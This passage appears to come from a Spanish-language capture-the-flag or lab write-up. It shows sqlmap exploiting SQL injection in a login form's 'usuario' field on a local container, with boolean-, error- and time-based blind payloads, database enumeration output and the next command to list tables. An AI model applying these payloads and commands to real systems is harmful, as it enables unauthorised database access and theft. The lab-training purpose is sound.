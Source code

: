 ```
    Payload: usuario=admin' AND GTID_SUBSET(CONCAT(0x7170716b71,(SELECT (ELT(2407=2407,1))),0x7176787171),2407)-- QPsJ&contrase%C3%B1a=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: usuario=admin' AND (SELECT 1600 FROM (SELECT(SLEEP(5)))RZVn)-- bLjg&contrase%C3%B1a=admin
---
[11:41:12] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Apache 2.4.58
back-end DBMS: MySQL >= 5.6
[11:41:12] [INFO] fetching database names
[11:41:12] [INFO] retrieved: 'mysql'
[11:41:12] [INFO] retrieved: 'information_schema'
[11:41:12] [INFO] retrieved: 'performance_schema'
[11:41:12] [INFO] retrieved: 'sys'
[11:41:12] [INFO] retrieved: 'users'
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sys
[*] users

[11:41:12] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/172.17.0.2'

[*] ending @ 11:41:12 /2025-03-09/
```

Vemos que ha funcionado y veremos las bases de datos de `SQL`, por lo que ahora vamos a ver que tablas contiene la base de datos llamada `users`.

```shell
sqlmap -r request.txt --dbs --batch -D users --threads 10 --tables
```

Info:

```
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.8.11#stable}
|_ -| . [']     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assumeno liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 11:42:24 /2025-03-09/

[11:42:24] [INFO] parsing HTTP request from 'request.txt'
[11:42:24] [INFO] resuming back-end DBMS 'mysql'
[11:42:24] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: usuario (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: usuario=admin' OR NOT 8838=8838#&contrase%C3%B1a=admin

    Type: error-based
```